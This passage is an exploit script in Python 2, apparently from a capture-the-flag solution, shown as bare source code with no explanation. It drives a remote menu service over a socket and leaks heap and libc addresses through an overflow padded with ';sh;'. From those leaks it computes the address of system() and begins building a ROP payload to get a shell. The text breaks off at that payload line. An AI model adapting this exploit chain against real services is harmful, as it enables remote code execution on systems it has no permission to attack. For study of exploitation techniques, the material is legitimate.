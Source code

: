 ``` py
heap = data.split("H"*20)[1][:4]
print "Heap : %s" % repr(heap)
print "******************* Second Leak : HEAP ***********************"
 
s.send("1\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("1\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("4\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("1\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("L"*16+stack+";sh;"*3+"\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("3\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
print repr(data.split(";sh;;sh;;sh;")[1][:4])
libc = data.split(";sh;;sh;;sh;")[1][:4]
print "Libc : %s " % repr(libc)
 
base = up(libc)-0x1872e
system_func = base + 0x3acf0
 
print "System : %s" % repr(p(system_func))
print "******************* Third Leak : LIBC ***********************"
 
s.send("4\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("1\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
rop_payload = p(system_func) + "AAAA" + heap + "AAAA"
```